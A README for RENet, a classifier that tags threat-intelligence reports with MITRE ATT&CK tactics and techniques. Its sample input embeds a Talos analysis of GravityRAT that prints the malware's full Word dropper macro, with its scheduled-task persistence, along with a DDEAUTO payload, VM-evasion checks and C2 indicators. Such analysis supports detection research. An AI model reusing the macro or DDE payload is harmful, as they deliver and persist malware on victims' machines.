


# RENet
RENet is a classification model to classify [Mitre ATT&CK V8](https://attack.mitre.org/versions/v8/) techniques and tactics together.
It takes cyber intelligence reports (str) in as input, and can deal text in both Chinese and English.



Fig 1. model structure

Our pre-trained model uses Bert as the pre-trained word embedding model as the input. 
And take ATT&CK V8 tactics and techniques list as outputs. User can use `model.py` as the test.
And trained with `RENet.py` as their own models.

RENet has a special module name relevance enhancement. 
It takes one of the classifier output as the input to enhance another classified results, 
by using their relationship.
For example, In our trained model, the relevance enhancement model enhance the techniques classification results,
by using tactics results and their belonging relevance. 
The process can be described as the following formula and Fig.2. 

Common

$$
P_{to}^{(trans)}=\frac{\sum P_{from}\cdot P(to|from)}{\sum P_{from}}\\
P_{to}^{(enhance)}=min(P_{to},P_{to}^{(trans)})
$$

ATT&CK

$$
P_{tech}^{(refer)}=\frac{\sum P_{tact}\cdot P(tech|tact)}{\sum P_{tact}}\\
P_{tech}^{(2)}=min(P_{tech},P_{tech}^{(refer)})
$$



Fig 2. relevance enhancement

# Dir
```
./datas         # where data files saved
./datas/bert    # where bert pre-trained model saved
./data/models   # where tensorflow2 performed RENet saved, including both Chinese and English models
./data/attck_tactic_tech_relation.json # where kept att&ck v8 tactic-technique relationship download from mitre
bertDeal.py     # deal text by bert
groupDataProcess.py # deal documents
model.py        # RENet processing and applications
RENet.py        # RENet model and configurations 
```

# How to use pre-trained RENet
You can follow the test in `model.py` to classify your reports.
```python
from model import tactecModel

testModel = tactecModel(type='english')
# get input
testText = '''Talos Blog || Cisco Talos Intelligence Group - Comprehensive Threat Intelligence: GravityRAT - The Two-Year Evolution Of An APT Targeting India Software Vulnerability Information Vulnerability Information BACK Vulnerability Reports Microsoft Advisories Reputation Center Reputation Center BACK IP & Domain Reputation Talos File Reputation Reputation Support AMP Threat Naming Conventions IP Blacklist Download AWBO Exercises Categories Library Support Communities Support Communities BACK Snort Community ClamAV Community Reputation Center Support SpamCop Careers Blog About Thursday, April 26, 2018 GravityRAT - The Two-Year Evolution Of An APT Targeting India This blog post is authored by Warren Mercer and Paul Rascagneres. Update: 4/30 Since the publication of the blog post, one of the anti-VM capability was commented a lot on Twitter: the detection of Virtual Machines by checking the temperature of the system. We decided to add more details and clarifications concerning this feature. GravityRAT uses a WMI request in order to get the current temperature of the hardware. Here is the output of the query on a physical machine (a Surface Book): The query returns the temperature of 7 thermal zones. Here is the output on a Virtual Machine executed by Hyper-V on the same hardware: The feature is not supported. The malware author used this behavior in order to identify VM (such as Sandboxes). From our tests and the feedback from several researchers, this monitoring is not supported on Hyper-V, VMWare Fusion, VirtualBox, KVM and XEN. It's important to notice that several recent physical systems do not support it (a researcher reported some Lenovo and Dell hosts did not support this). It means that GravityRAT will consider this physical machine as VMs. Importantly to note this check is not foolproof as we have identified physical hosts which do not report back the temperature, however, it should also be considered a check that is identifying a lot of virtual environments. This is particularly important due to the amount of sandboxing & malware detonation being carried out within virtual environments by researchers. Summary Today, Cisco Talos is uncovering a new piece of malware, which has remained under the radar for the past two years while it continues to be developed. Several weeks ago, we identified the use of the latest version of this RAT (Remote Access Tool). In this article, we will discuss the technical capabilities, the evolution, development and potential attribution of what we are calling GravityRAT. GravityRAT has been under ongoing development for at least 18 months, during which the developer has implemented new features. We've seen file exfiltration, remote command execution capability and anti-vm techniques added throughout the life of GravityRAT. This consistent evolution beyond standard remote code execution is concerning because it shows determination and innovation by the actor. Throughout our investigation, we observed several malicious documents used to attack victims, which we will discuss. These malicious documents were used by the developer to run several tests on the popular analysis platform VirusTotal. Using VirusTotal allowed the developer to make changes in an attempt to decrease antivirus detection. Although GravityRAT has not been previously published or discussed, there was some information from the National Computer Emergency Response Team (CERT) of India describing GravityRAT as being used in targeted attacks against India. Finally, we will discuss specific attribution elements discovered during our research into GravityRAT as we identify specific information, which we believe to be leaked by the developer, such as location, and potentially their first name. Infection Vectors Malicious Office Documents The majority of the malicious documents crafted by the malware author are Microsoft Office Word documents. The attacker uses an embedded macro in order to execute malicious code on the victim's system. The document opens and appears as such: The document asks to the user to enable macros in order to prove that the user is not a robot (similar to the CAPTCHA we often see on the internet). This, however, is a known tactic that a lot of Office-based malware uses. It is an attempt to trick any users who are using Protected Mode on their systems. By enabling macros, the malware is able to begin it's execution. We discovered that the embedded macro is quite small when extracted. Sub AutoOpen() If Not Dir(Environ("TEMP") + "\\image4.exe") <> "" Then Const lCancelled_c As Long = 0 Dim sSaveAsPath As String sSaveAsPath = CreateObject("WScript.Shell").ExpandEnvironmentStrings("%Temp%") + "\\temporary.zip" If VBA.LenB(sSaveAsPath) = lCancelled_c Then Exit Sub ActiveDocument.Save Application.Documents.Add ActiveDocument.FullName ActiveDocument.SaveAs sSaveAsPath ActiveDocument.Close Set app = CreateObject("Shell.Application") ExtractTo = CreateObject("WScript.Shell").ExpandEnvironmentStrings("%Temp%") ExtractByExtension app.NameSpace(Environ("TEMP") + "\\temporary.zip"), "exe", ExtractTo End If End Sub Sub ExtractByExtension(fldr, ext, dst) Set FSO = CreateObject("Scripting.FileSystemObject") Set app = CreateObject("Shell.Application") For Each f In fldr.Items If f.Type = "File folder" Then ExtractByExtension f.GetFolder, ext, dst ElseIf LCase(FSO.GetExtensionName(f.Name)) = LCase(ext) Then If Not Dir(Environ("TEMP") + "\\image4.exe") <> "" Then app.NameSpace(dst).CopyHere f.Path, &H4 End If End If Next Shell "schtasks /create /tn wordtest /tr ""'%temp%\\image4.exe' 35"" /sc DAILY /f /RI 10 /du 24:00 /st 00:01" End Sub This macro contains three functions: The first one is executed when the document is opened. The purpose is to copy the active document (the opened Word document) in a temporary directory and to rename it as a ZIP archive. Indeed, the docx format is, in fact, a common ZIP archive, and can be unzipped using common tools. The second function decompresses this 'temporary.zip' file and extracts the .exe file stored in it. The third creates a scheduled task, named 'wordtest', to execute this malicious file every day. With this approach, the attacker ensures that there is no direct execution (the executable is executed thanks to scheduled tasks), there's no download of an additional payload, and finally, the author uses the fact that the docx format is an archive in order to include its executable (GravityRAT). Testing By The Author During our tracking, we identified several malicious documents submitted from this actor on VirusTotal for testing purposes. They tested the detection on macros (by modifying them, or by executing the calc instead of the malicious payload) and the developers tried dynamic data exchange (DDE) execution in the Office document. This is abusing the DDE protocol which exists within Microsoft Office documents. Whilst this is a feature Microsoft provide it is also a feature that an attacker can leverage for malicious activity, Microsoft published mitigation information here previously. The developer crafted Office Word and Excel documents to see the detection in VirusTotal. The authors tried to hide the DDE object in a different part of the document \xe2\x80\x94 in the main object and the header, for example. The DDE object simply executes Microsoft calc in the detected sample. Here is an example: <?xml version="1.0" encoding="UTF-8" standalone="yes"?> <w:document [...redated...}] mc:Ignorable="w14 w15 wp14"><w:body><w:p w:rsidR="00215C91" w:rsidRDefault="008C166A"><w:r><w:fldChar w:fldCharType="begin"/></w:r><w:r><w:instrText xml:space="preserve"> </w:instrText></w:r><w:r><w:rPr><w:rFonts w:ascii="Helvetica" w:hAnsi="Helvetica" w:cs="Helvetica"/><w:color w:val="383838"/><w:spacing w:val="3"/><w:sz w:val="26"/><w:szCs w:val="26"/><w:shd w:val="clear" w:color="auto" w:fill="FFFFFF"/></w:rPr><w:instrText>DDEAUTO c:\\\\windows\\\\system32\\\\cmd.exe "/k calc.exe"</w:instrText></w:r><w:r><w:instrText xml:space="preserve"> </w:instrText></w:r><w:r><w:fldChar w:fldCharType="end"/></w:r><w:bookmarkStart w:id="0" w:name="_GoBack"/><w:bookmarkEnd w:id="0"/></w:p><w:sectPr w:rsidR="00215C91"><w:pgSz w:w="12240" w:h="15840"/><w:pgMar w:top="1440" w:right="1440" w:bottom="1440" w:left="1440" w:header="720" w:footer="720" w:gutter="0"/><w:cols w:space="720"/><w:docGrid w:linePitch="360"/></w:sectPr></w:body></w:document> We believe the filenames of the submitted samples are clearly testing docs, using different methods and Office tricks to attempt to ensure his malware was undetected. Those names were: testnew1.docx Test123.docx test456.docx test2.docx book1test2.xlsx Test123.doc GravityRAT Our initial discovery of GravityRAT was through a malicious Word document. As explained previously, this Word document had various macros to deliver a final payload.Considering that this was the most recent version of the malware, we decided to ascertain how long this actor had been active, and how their attacks had evolved. We were able to discover four distinct versions of GravityRAT, developed over two years. Next, we will go through what we believe is the development life cycle and feature-addition mission carried out by this developer. Version G1 The malware author uses a versioning system starting by the G letter. The oldest version we identified is G1. Here is the PDB path of the sample: f:\\F\\Windows Work\\G1\\Adeel's Laptop\\G1 Main Virus\\systemInterrupts\\gravity\\obj\\x86\\Debug\\systemInterrupts.pdb You can notice the potential first name of the developers: Adeel. Of course, this information can be manipulated by the malware author. This sample was compiled in December 2016. The original filename of the sample was resume.exe. The purpose of this version was to steal information on the compromised system: MAC Address Computer name Username IP address Date Steal files with the following extensions: .docx, .doc, .pptx, .ppt, .xlsx, .xls, .rtf and .pdf The volumes mapped on the system All this information was then sent to one of the following domains: G1 also had the ability to execute commands remotely on the infected host machine at the author's will. Version G2 We identified a new variant used in July 2017 named G2. Here is the PDB of the sample: e:\\Windows Work\\G2\\G2 Main Virus\\Microsoft Virus Solutions (G2 v5) (Current)\\Microsoft Virus Solutions\\obj\\Debug\\Windows Wireless 802.11.pdb For this version, the developer modified the architecture of the malware. The main code aims to load and execute two additional .NET binaries stored in the resources of the file: The first resource is a legitimate open-source library available on GitHub. It's a .NET wrapper for the Windows Task Scheduler The second is the G2 version of GravityRAT This variant shares the same command and control (C2) servers as G1, however, we have an additional 'payload' variable added to G2. This variant has almost identical capabilities as the previous, except one additional functionality: It collects the CPU information in the Win32_Processor entry via WMI request (Processor ID, Name, Manufacturer and the clock speed). The attacker is most likely using this information as part of an anti-vm attempt within this malware. This is used to try and thwart analysis in virtual environments. In a slight change to the previous variant, the new payloads are executed with a Windows Scheduled Task. This would explain the inclusion of the .NET wrapper. The analysed sample contained a decoy picture document in the resource section: Version G3 In August 2017, the author of GravityRAT used a new variant of its malware, G3. Here is the PDB: F:\\Projects\\g3\\G3 Version 4.0\\G3\\G3\\obj\\Release\\Intel Core.pdb This variant uses the same method as G2, and includes a legitimate library in the resource section. The developers also added additional language support to the library: German Spanish French Italian Chinese The author changed the backend of the C2 server with this variant. The URI changed too, it contains the GravityRAT variant name: August was also the same month NIC CERT notified potential victims that GravityRAT had been used in a targeted campaign. Given the ongoing development nature of this malware, it meant another variant was most likely due. Version GX The latest version of GravityRAT was created in December 2017 named GX. Here is the PDB: C:\\Users\\The Invincible\\Desktop\\gx\\gx-current-program\\LSASS\\obj\\Release\\LSASS.pdb This version is the most advanced variant of GravityRAT. Throughout the evolution, we saw this malware embedding open-source legitimate .NET libraries (for schedule tasks, compression, encryption, .NET loading). It contains a resource named "important." This is an archive with a password. This variant has the same features as before, but this time, some new features are added: It collects open ports on the victim host by running the netstat command It lists all the running processes It lists available services on the system It exfiltrates .ppt and .pptx file, in addition to the extension mentioned in the G1 variant If a USB key is connected on the system, the malware steals the file based on an extension list It supports file encryption (AES with the key "lolomycin2017") It collects information on the account (account type, description, domain name, full name, SID and status) It checks if the system is a virtual machine with several techniques The developer implemented a total of seven techniques to identify if the compromised system is a virtual machine. The first technique consists of looking at any additional tools used by the hypervisor that are installed on the system (by checking a registry key): The second technique uses a WMI request to the BIOS version (Win32_BIOS entry). If the response contains: "VMware", "Virtual", "XEN", "Xen" or "A M I" the system is considered as a virtual machine. Additionally, the malware checks the SerialNumber and the version of the BIOS. The third technique uses the Win32_Computer entry in WMI. It checks if the manufacturer contains "VIRTUAL", "VMWARE" or "VirtualBox". The fourth technique checks the Processor ID of the system. The fifth technique counts the number of cores in the infected system (the author expects more than one core) The sixth technique checks the current CPU temperature of the system (the MSAcpi_ThermalZoneTemperature entry). Indeed, some hypervisors (VMWare, VirtualBox and Hyper-V) do not support temperature check. The WMI request simply replies "not supported". This behaviour can be used to detect if the targeted system is a real machine. The last technique uses the MAC Address of the infected system. If the MAC Address starts by a well-known hexadecimal number, the system is identified as a virtual machine. The C2 servers communication is performed in HTTP as it did previously. The variant version of GX is used in the URI. The C2 servers we can see are shared with the previous variants: What we know about the author Below, we will present evidence that we have obtained regarding the attacker and the associated malware. Obviously, attribution is a complex field. The developers could be using a proxy or a VPN in order to fake the origin of the submission. But, we will still simply present some facts concerning this actor. The developer used at least two different usernames in the past two years: "The Invincible" and "TheMartian." In the oldest version of GravityRAT, the attacker potentially leaked his or her first name in the PDB: "Adeel" \xe2\x80\x94 the path contained "Adeel's Laptop". Additionally, all the malicious Office documents, and more specifically the documents used to test anti-virus on VirusTotal, were submitted from Pakistan. One of the four PE files in the IOCs section was sent from Pakistan, too. In August 2017, NIC CERT published an advisory about malicious targeted campaigns. This advisory mentions the C2 server infrastructure of GravityRAT, which means the GravityRAT author likely targeted Indian entities/organisations. By leveraging Cisco Umbrella and using the Investigate tool, we were able to determine that across all of the C2 domains listed, we saw a large influx of traffic originating from India, as evidenced by NIC CERT, all of the C2 domains were at least 50 percent requested by Indian IP infrastructure. It is possible that some of the non-Indian IP space requests may artefacts be due to our own research. Conclusion This actor is probably not the most advanced actor we've seen. But he or she managed to stay under the radar since 2016. They worked on malicious code, and produced four variants. Each new variant included new features. The developer used the same C2 infrastructure all this time. The developer was clever enough to keep this infrastructure safe, and not have it blacklisted by a security vendor. The actor took their time to ensure they were not within a virtual environment to avoid analysis. However, they did not take any time at all to attempt to obfuscate their .NET code. The code was largely trivial to reverse engineer, which meant static analysis was an easy option for this piece of malware. NIC CERT published an advisory about this actor, which suggest they targeted Indian entities and organizations. The author leaked information within the samples (i.e. Adeel) and on the VirusTotal platform. Thanks to this information, we we able to understand how they tested malicious documents in order to decrease detection ratios across many popular engines. During this testing period, all the samples were uploaded from Pakistan to VirusTotal. Coverage Additional ways our customers can detect and block this threat are listed below. Advanced Malware Protection (AMP) is ideally suited to prevent the execution of the malware used by these threat actors. CWS or WSA web scanning prevents access to malicious websites and detects malware used in these attacks. Email Security can block malicious emails sent by threat actors as part of their campaign. Network Security appliances such as NGFW, NGIPS, and Meraki MX can detect malicious activity associated with this threat. AMP Threat Grid helps identify malicious binaries and build protection into all Cisco Security products. Umbrella, our secure internet gateway (SIG), blocks users from connecting to malicious domains, IPs, and URLs, whether users are on or off the corporate network. Open Source Snort Subscriber Rule Set customers can stay up to date by downloading the latest rule pack available for purchase on Snort.org. IOCs Malicious Documents Macros 0beb2eb1214d4fd78e1e92db579e24d12e875be553002a778fb38a225cadb703 70dc2a4d9da2b3338dd0fbd0719e8dc39bc9d8e3e959000b8c8bb04c931aff82 835e759735438cd3ad8f4c6dd8b035a3a07d6ce5ce48aedff1bcad962def1aa4 C14f859eed0f4540ab41362d963388518a232deef8ecc63eb072d5477e151719 ed0eadd8e8e82e7d3829d71ab0926c409a23bf2e7a4ff6ea5b533c5defba4f2a f4806c5e4449a6f0fe5e93321561811e520f738cfe8d1cf198ef12672ff06136 Other Malicious Documents (DDE) 911269e72cd6ed4835040483c4860294d26bfb3b351df718afd367267cd9024f fb7aa28a9d8fcfcabacd7f390cee5a5ed67734602f6dfa599bff63466694d210 ef4769606adcd4f623eea29561596e5c0c628cb3932b30428c38cfe852aa8301 cd140cf5a9030177316a15bef19745b0bebb4eb453ddb4038b5f15dacfaeb3a2 07682c1626c80fa1bb33d7368f6539edf8867faeea4b94fedf2afd4565b91105 GravityRAT G1 9f30163c0fe99825022649c5a066a4c972b76210368531d0cfa4c1736c32fb3a G2 1993f8d2606c83e22a262ac93cc9f69f972c04460831115b57b3f6244ac128bc G3 99dd67915566c0951b78d323bb066eb5b130cc7ebd6355ec0338469876503f90 GX 1c0ea462f0bbd7acfdf4c6daf3cb8ce09e1375b766fbd3ff89f40c0aa3f4fc96 C2 Servers hxxp://cone[.]msoftupdates.com:46769 hxxp://ctwo[.]msoftupdates.com:46769 hxxp://cthree[.]msoftupdates.com:46769 hxxp://eone[.]msoftupdates.eu:46769 hxxp://etwo[.]msoftupdates.eu:46769 hxxp://msupdates[.]mylogisoft.com:46769 hxxp://coreupdate[.]msoftupdates.com:46769 hxxp://updateserver[.]msoftupdates.eu:46769 msoftupdates[.]com msoftupdates[.]eu mylogisoft[.]com URI: /Gvty@/1ns3rt_39291384.php /Gvty@/newIns3rt.php /Gvty@/payloads /Gvty@/ip.php /G3/ServerSide/G3.php /G3/Payload/ /GX/GX-Server.php /GetActiveDomains.php Posted by Paul Rascagneres at 11:11 AM Labels: .NET, APT, GravityRAT, India, macros, MalDoc, Malware Analysis Share This Post No comments: Post a Comment Newer Post Older Post Home Subscribe to: Post Comments (Atom) Subscribe To Our Feed Posts Comments Subscribe via Email Blog Archive \xe2\x96\xba\xc2 2019 (191) \xe2\x96\xba\xc2 September (18) \xe2\x96\xba\xc2 August (21) \xe2\x96\xba\xc2 July (23) \xe2\x96\xba\xc2 June (16) \xe2\x96\xba\xc2 May (25) \xe2\x96\xba\xc2 April (25) \xe2\x96\xba\xc2 March (24) \xe2\x96\xba\xc2 February (19) \xe2\x96\xba\xc2 January (20) \xe2\x96\xbc\xc2 2018 (198) \xe2\x96\xba\xc2 December (16) \xe2\x96\xba\xc2 November (15) \xe2\x96\xba\xc2 October (26) \xe2\x96\xba\xc2 September (16) \xe2\x96\xba\xc2 August (12) \xe2\x96\xba\xc2 July (20) \xe2\x96\xba\xc2 June (15) \xe2\x96\xba\xc2 May (15) \xe2\x96\xbc\xc2 April (21) Threat Roundup for April 20-27 GravityRAT - The Two-Year Evolution Of An APT Targ... Vulnerability Spotlight: Hyland Perceptive Documen... Cryptomining Campaign Returns Coal and Not Diamond... Beers with Talos EP27: Smart Install, Vuln Process... Vulnerability Spotlight: Multiple Issues in Foxit ... Updates for BASS Vulnerability Spotlight: Foscam IP Video Camera Fi... Threat Roundup for April 6 - 13 Vulnerability Spotlight: Multiple Vulnerabilities ... Malware monitor - leveraging PyREBox for malware a... Vulnerability Spotlight: TALOS-2018-0529-531 - Mul... Vulnerability Spotlight: Multiple Simple DirectMed... Vulnerability Spotlight: Multiple Computerinsel Ph... Microsoft Patch Tuesday - April 2018 IcedID Banking Trojan Teams up with Ursnif/Dreambo... Beers with Talos EP26: Talos is Holding a Conferen... Critical Infrastructure at Risk: Advanced Actors T... Vulnerability Spotlight: Natus NeuroWorks Multiple... Vulnerability Spotlight: Moxa AWK-3131A Multiple F... Fake AV Investigation Unearths KevDroid, New Andro... \xe2\x96\xba\xc2 March (10) \xe2\x96\xba\xc2 February (14) \xe2\x96\xba\xc2 January (18) \xe2\x96\xba\xc2 2017 (171) \xe2\x96\xba\xc2 December (9) \xe2\x96\xba\xc2 November (11) \xe2\x96\xba\xc2 October (15) \xe2\x96\xba\xc2 September (17) \xe2\x96\xba\xc2 August (16) \xe2\x96\xba\xc2 July (14) \xe2\x96\xba\xc2 June (14) \xe2\x96\xba\xc2 May (19) \xe2\x96\xba\xc2 April (17) \xe2\x96\xba\xc2 March (17) \xe2\x96\xba\xc2 February (12) \xe2\x96\xba\xc2 January (10) \xe2\x96\xba\xc2 2016 (98) \xe2\x96\xba\xc2 December (9) \xe2\x96\xba\xc2 November (8) \xe2\x96\xba\xc2 October (11) \xe2\x96\xba\xc2 September (8) \xe2\x96\xba\xc2 August (8) \xe2\x96\xba\xc2 July (9) \xe2\x96\xba\xc2 June (10) \xe2\x96\xba\xc2 May (6) \xe2\x96\xba\xc2 April (12) \xe2\x96\xba\xc2 March (7) \xe2\x96\xba\xc2 February (6) \xe2\x96\xba\xc2 January (4) \xe2\x96\xba\xc2 2015 (62) \xe2\x96\xba\xc2 December (3) \xe2\x96\xba\xc2 November (3) \xe2\x96\xba\xc2 October (6) \xe2\x96\xba\xc2 September (6) \xe2\x96\xba\xc2 August (5) \xe2\x96\xba\xc2 July (4) \xe2\x96\xba\xc2 June (6) \xe2\x96\xba\xc2 May (3) \xe2\x96\xba\xc2 April (7) \xe2\x96\xba\xc2 March (8) \xe2\x96\xba\xc2 February (7) \xe2\x96\xba\xc2 January (4) \xe2\x96\xba\xc2 2014 (67) \xe2\x96\xba\xc2 December (4) \xe2\x96\xba\xc2 November (5) \xe2\x96\xba\xc2 October (6) \xe2\x96\xba\xc2 September (10) \xe2\x96\xba\xc2 August (4) \xe2\x96\xba\xc2 July (3) \xe2\x96\xba\xc2 June (6) \xe2\x96\xba\xc2 May (4) \xe2\x96\xba\xc2 April (10) \xe2\x96\xba\xc2 March (4) \xe2\x96\xba\xc2 February (3) \xe2\x96\xba\xc2 January (8) \xe2\x96\xba\xc2 2013 (30) \xe2\x96\xba\xc2 December (3) \xe2\x96\xba\xc2 November (2) \xe2\x96\xba\xc2 October (5) \xe2\x96\xba\xc2 September (2) \xe2\x96\xba\xc2 August (2) \xe2\x96\xba\xc2 July (3) \xe2\x96\xba\xc2 June (1) \xe2\x96\xba\xc2 May (2) \xe2\x96\xba\xc2 April (1) \xe2\x96\xba\xc2 March (1) \xe2\x96\xba\xc2 February (3) \xe2\x96\xba\xc2 January (5) \xe2\x96\xba\xc2 2012 (53) \xe2\x96\xba\xc2 December (3) \xe2\x96\xba\xc2 November (1) \xe2\x96\xba\xc2 October (2) \xe2\x96\xba\xc2 September (6) \xe2\x96\xba\xc2 August (7) \xe2\x96\xba\xc2 July (7) \xe2\x96\xba\xc2 June (4) \xe2\x96\xba\xc2 May (6) \xe2\x96\xba\xc2 April (5) \xe2\x96\xba\xc2 March (3) \xe2\x96\xba\xc2 February (7) \xe2\x96\xba\xc2 January (2) \xe2\x96\xba\xc2 2011 (23) \xe2\x96\xba\xc2 December (1) \xe2\x96\xba\xc2 November (4) \xe2\x96\xba\xc2 October (3) \xe2\x96\xba\xc2 September (1) \xe2\x96\xba\xc2 August (2) \xe2\x96\xba\xc2 July (3) \xe2\x96\xba\xc2 June (1) \xe2\x96\xba\xc2 May (2) \xe2\x96\xba\xc2 April (1) \xe2\x96\xba\xc2 March (2) \xe2\x96\xba\xc2 February (1) \xe2\x96\xba\xc2 January (2) \xe2\x96\xba\xc2 2010 (93) \xe2\x96\xba\xc2 December (4) \xe2\x96\xba\xc2 November (2) \xe2\x96\xba\xc2 October (4) \xe2\x96\xba\xc2 September (7) \xe2\x96\xba\xc2 August (9) \xe2\x96\xba\xc2 July (11) \xe2\x96\xba\xc2 June (12) \xe2\x96\xba\xc2 May (5) \xe2\x96\xba\xc2 April (12) \xe2\x96\xba\xc2 March (10) \xe2\x96\xba\xc2 February (7) \xe2\x96\xba\xc2 January (10) \xe2\x96\xba\xc2 2009 (146) \xe2\x96\xba\xc2 December (14) \xe2\x96\xba\xc2 November (10) \xe2\x96\xba\xc2 October (12) \xe2\x96\xba\xc2 September (13) \xe2\x96\xba\xc2 August (9) \xe2\x96\xba\xc2 July (19) \xe2\x96\xba\xc2 June (11) \xe2\x96\xba\xc2 May (13) \xe2\x96\xba\xc2 April (10) \xe2\x96\xba\xc2 March (11) \xe2\x96\xba\xc2 February (13) \xe2\x96\xba\xc2 January (11) \xe2\x96\xba\xc2 2008 (37) \xe2\x96\xba\xc2 December (12) \xe2\x96\xba\xc2 November (6) \xe2\x96\xba\xc2 October (7) \xe2\x96\xba\xc2 September (6) \xe2\x96\xba\xc2 August (3) \xe2\x96\xba\xc2 May (3) Recommended Blogs Cisco Blog Emotet is back after a summer break Snort Blog Snort OpenAppID Detectors have been updated ClamAV\xc2\xae blog ClamAV 0.102.0 Release Candidate is now available Software Reputation Center Vulnerability Information Microsoft Advisory Snort Rules IP Blacklist Download AMP Naming Conventions Talos File Reputation AWBO Exercises Library Support Communities About Careers Blog ThreatSource Newsletter Beers with Talos Podcast Connect With Us \xc2\xa9 Cisco Systems, Inc. and/or its affiliates. All rights reserved. View our Privacy Policy here.'''
# print(testText)
# print predict, thread refers the threshold between [0,1], where only return the scores > threshold
testTextOutputs = testModel.printTextPossibleTacTec(testText, thread=0.5)
print(testTextOutputs['tactic'], testTextOutputs['tech'])
```

Suppose Output:
```
['TA0002', 'TA0003', 'TA0004', 'TA0005', 'TA0006', 'TA0007', 'TA0009', 'TA0011']['T1036', 'T1053', 'T1070', 'T1102', 'T1119', 'T1497']
```

# How to build your own RENet
You can simply build your own RENet by using `RENet.py`.
```python
from RENet import RENet

model = RENet(input_shape,          # the embedding shape like [max_len, emd_vectors]
              output_shapes,        # the output_layers vector shapes like Array<int>
              activation='sigmoid', # classifier activation
              withRCNN=False,       # classifier RNN deal type, when =False the context vectors are 
                                    # [forward-vector;backward-vector]; when =True, it can be 
                                    # [forward-vector; original-vector;backward-vector] 
              dense_units=[512, 256, 128], # the dense layers dims before the last layer of classifier
              lstm_dim=256,         # the RNN count
              dropout=0.5,          # dropout on dense layers
              cnn_dim=[1, 2],       # cnn layers kernel_sizes 
              cnn_count=256,        # cnn layers filters
              output_names=None,    # output layers names
              renet_pairs=None,     # relevance enhancement type: 
                                    # when pairs = None: the default pairs are (0->1),(1->2),(2->3),...
                                    # else when pairs = List<Dict> 
                                    # user can modify own pair (from->to) as: {from, to, type, weights}
                                    # from: the index of relevance enhancement from which output node
                                    # to: the index of relevance enhancement to which output node
                                    # type: in ['0','zero']: zero init weights; 
                                    # type: in ['a','artificial']: man-made init weights;
                                    # type: in ['la','lock-artificial']: man-made init weights and cannot train;
                                    # weights: given man-made weights, whose shape is [from output vector, to output vector]
                                    # weights: if not give or given wrong the type will be changed as '0'
              )
```
